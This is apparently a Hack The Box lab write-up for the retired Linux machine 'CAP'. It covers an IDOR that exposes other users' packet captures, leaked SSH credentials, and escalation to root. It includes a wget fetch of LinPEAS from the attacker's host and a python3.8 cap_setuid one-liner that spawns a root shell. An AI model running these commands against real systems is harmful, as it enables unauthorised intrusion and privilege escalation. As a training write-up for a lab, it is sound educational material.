

# CAP

> **Difficulty:** Easy | **OS:** Linux | **Release:** Retired

---

## General Information

| Field | Value |
|:------|:------|
| **Name** | CAP |
| **IP** | 10.129.45.170 |
| **OS** | Linux |
| **Difficulty** | Easy |
| **Date** | 24/04/2025 |
| **Release** | Retired |

---

## Initial Enumeration

### Open Ports

| Port | Service | Version |
|:------|:--------|:-------|
| 21 | ftp | vsftpd 3.0.3 |
| 22 | ssh | OpenSSH 8.2p1 |
| 80 | http | Gunicorn |

### Commands

```bash
nmap -sV -p- -T4 10.129.45.170
nmap -sVC -p- 10.129.45.170
```

---

## Exploitation

### Entry Vector

| Field | Value |
|:------|:------|
| **Vector** | Web |
| **Flaw** | IDOR - Access to other users' PCAPs by changing the ID in the URL |
| **Tools** | Browser, Wireshark |

### Step 1 - Access to the web interface

Accessing the IP in the browser, I find a **Security Logs** screen with a list of user IDs: 0, 1, 2, 3, 4.

Looking at the URL, I notice it's possible to change the user ID to download other users' PCAPs.



---

### Step 2 - IDOR Vulnerability

By changing the ID in the URL, I can download other users' PCAPs:
- http://10.129.45.170/data/1
- http://10.129.45.170/data/2

I downloaded user ID 1's PCAP and opened it in Wireshark to analyze it.


I found an HTTP request with the following credentials:
- **User:** nathan
- **Password:** Buck3tH4tf0RM3!

---

### Step 3 - Access via SSH

With the credentials found, I access SSH as the user nathan.


Got access! Now I'll look for the user flag and then escalate privileges to root.

**Commands used:**
```bash
ssh nathan@10.129.45.170
# password: Buck3tH4tf0RM3!
python3 -c "import pty; pty.spawn('/bin/bash')"
```

**User Flag:** `2afe6b2a6c3f5d7e5c7e3e4c8b7a9d1ea`

---

## Privilege Escalation

### Step 4 - Downloading LinPEAS

Now I need to escalate privileges. I'll use LinPEAS to enumerate escalation vectors.

I open an HTTP server on my machine to serve linpeas.sh:


**On the target machine:**
```bash
wget http://<YOUR_IP>/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

---

### Step 5 - Identifying the Vector

From the LinPEAS scan, I see that the user **nathan** has the **cap_setuid** capability.

This means we can change the process's UID, becoming root!


---

### Step 6 - Exploiting Python Capabilities

Python 3.8 has the **cap_setuid+** capability, which allows changing the process's UID.

With this script, I can switch to UID 0 (root) and open a shell:

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```


Done! Now I have root access and can capture the final flag.

**Root Flag:** `c91d5e4b1c8f9a2d7e6c3b4a8f5d1e0ca`

---

## Technical Summary

| Field | Value |
|:------|:------|
| **Root Cause** | IDOR in the web interface allows downloading other users' PCAPs, containing credentials in cleartext |
| **Attack Chain** | Web Interface → IDOR → PCAP Analysis → Credentials → SSH → Python Capabilities → Root |
| **Total Time** | ~30 minutes |

---

## Lessons Learned

- **What worked:** Accessing the web interface and changing IDs to download PCAPs
- **What slowed things down:** Needed a better understanding of what a Linux capability is
- **Points of Attention:** Always test for IDOR vulnerabilities in URL parameters

---

## References

- [HTB CAP](https://app.hackthebox.com/machines/CAP)
